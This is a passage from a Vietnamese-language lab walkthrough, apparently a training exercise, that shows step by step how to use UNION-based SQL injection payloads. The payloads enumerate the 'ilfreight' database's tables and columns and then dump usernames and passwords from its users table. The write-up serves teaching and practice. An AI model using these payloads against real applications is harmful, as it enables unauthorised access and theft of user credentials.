 Quá tiện, chúng ta có thể truy vấn trực tiếp luôn khỏi mất công đụng đến schema.

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
```

![](images/7.png)

DB này có 3 bảng là products, users và ports.

Chúng ta sẽ tìm kiếm thông tin của bảng users nơi có khả năng cao là thứ ta cần tìm: thông tin của người dùng `newuser`.

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```

![](images/8.png)

Như vậy bảng users có 3 cột là id, username và password.

Chúng ta sẽ truy vấn tất cả dữ liệu của bảng users

```sql
cn' UNION select 1, username, password, id from users-- -
```

Hoặc nếu đang không có mặt ở cơ sở dữ liệu hiện tại, chúng ta cần ghi đầy đủ:

```sql
cn' UNION select 1, username, password, id from ilfreight.users-- -
```

![](images/9.png)
